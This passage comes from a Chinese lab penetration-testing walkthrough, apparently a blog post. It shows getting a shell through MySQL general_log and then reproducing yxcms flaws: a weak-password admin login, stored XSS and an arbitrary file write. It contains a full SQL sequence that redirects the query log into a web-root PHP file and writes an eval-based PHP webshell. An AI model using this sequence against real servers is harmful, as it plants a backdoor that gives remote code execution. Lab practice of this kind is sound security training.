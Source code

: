 因为general_log 日志会记录我们执行的sql语句，所以我们执行php一句话也会被记录，因为后缀被改为php，所以php碰到php头 **<?**  就会认为这是个php文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606174112475.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

再次访问，报php错误，确定已经被php解析，但是在940行有一个致命错误
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606174353328.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)


清空general_log 日志再次尝试

```sql
set global general_log = 'OFF';
rename table mysql.general_log TO mysql.general_log2;
delete from mysql.general_log2;
show variables like 'general%'
rename table mysql.general_log2 TO mysql.general_log;
set global general_log = 'ON';
set global general_log_file='C:/phpStudy/WWW/shell2.php'
show variables like 'general%'
select '<?php eval($_POST[pwd]);?>';
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606181051807.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)



## yxcms


网站泄露后台地址和用户密码，且用户密码为弱口令
百度查询到相关目录结构找到后端登录页面
http://192.168.60.170/yxcms/index.php?r=admin/index/login
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606204627586.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)



网上搜索了yxcms相关漏洞，在此复现



### 前端 XSS

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606202120761.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)
后端验证，通过验证后前端也会显示

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606205005443.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606205225794.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

### 任意文件写入 getshell
新建模板

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606205516873.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

通过前面泄露的备份文件得到上传点
